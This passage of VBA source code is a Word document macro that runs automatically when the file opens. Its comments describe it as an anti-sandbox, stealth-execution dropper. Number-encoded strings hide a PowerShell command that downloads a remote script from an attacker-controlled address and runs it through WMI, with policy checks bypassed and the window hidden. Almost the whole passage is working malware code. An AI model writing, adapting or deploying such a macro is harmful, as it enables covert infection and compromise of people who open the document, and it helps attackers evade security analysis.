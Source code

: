     Function Strawberries(Grapes)
        Strawberries = Left(Grapes, 3)  ' Take 3 digits at a time
    End Function
    
    Function Almonds(Jelly)
        Almonds = Right(Jelly, Len(Jelly) - 3) ' Remove processed 3 digits
    End Function
    
    Function Nuts(Milk)
        Dim Oatmilk As String
    		Oatmilk = ""
        Do
            Oatmilk = Oatmilk + Pears(Strawberries(Milk))
            Milk = Almonds(Milk)
        Loop While Len(Milk) > 0
        Nuts = Oatmilk
    End Function
    
    ' ========================
    ' Main Macro
    ' ========================
    Function MyMacro()
    
        ' Anti-sandbox trick: check document name
        If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
            Exit Function
        End If
        If Environ("USERNAME") = "sandbox" Then Exit Function
        
        Dim Apples As String, Water As String
        Dim Tea As String, Coffee As Variant, Napkin As Variant
    
        ' Encrypted PowerShell payload
        Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
        
        ' Decrypt payload
        Water = Nuts(Apples)
    		
    
        Tea = ""          ' Current directory (empty)
    		Coffee = 0        ' Startup info
    		' Napkin will receive the PID
        
        ' Execute payload via WMI (stealthy execution)
          GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
    End Function
    
    Sub AutoOpen()
        MyMacro
    End Sub
    ```
